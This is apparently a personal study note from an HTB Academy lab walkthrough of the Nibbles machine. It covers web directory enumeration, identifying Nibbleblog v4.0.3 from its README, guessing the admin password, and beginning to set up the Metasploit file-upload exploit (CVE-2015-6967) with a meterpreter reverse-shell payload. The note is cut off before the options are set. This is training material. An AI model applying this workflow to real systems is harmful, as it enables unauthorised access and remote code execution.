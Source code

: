 - after enumeration we have the following results:
```
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
```

- let's search inside each one
- when entering the /README directory we can gate some information about the service
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

- next we search /admin.php
![[Cybersecurity/HTB Academy Notes/Images/Pasted image 20240822234729.png]]

- for now we won't guess because we might get blacklisted

- searching the /content directory we stumble across some data
![[Cybersecurity/HTB Academy Notes/Images/Pasted image 20240822234909.png]]
- from this, we now know that the username is admin for the login page

- we guess that the password might be nibbles....
![[Cybersecurity/HTB Academy Notes/Images/Pasted image 20240822235437.png]]
- and we were right, yay

- we got access to the admin's dashboard but all we could do is mess a bit with the website
- but we want a shell so we launch msfconsole

- from the /README file we know the version so we can start there
- msfconsole has an exploit for nibbleblog_file_upload but we don't know that it's the correct version so we do some more research for our version
- we stumble across CVE-2015-6967, arbitrary file upload which is what we have in msfconsole
- next, we configure the payload....
```
Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
```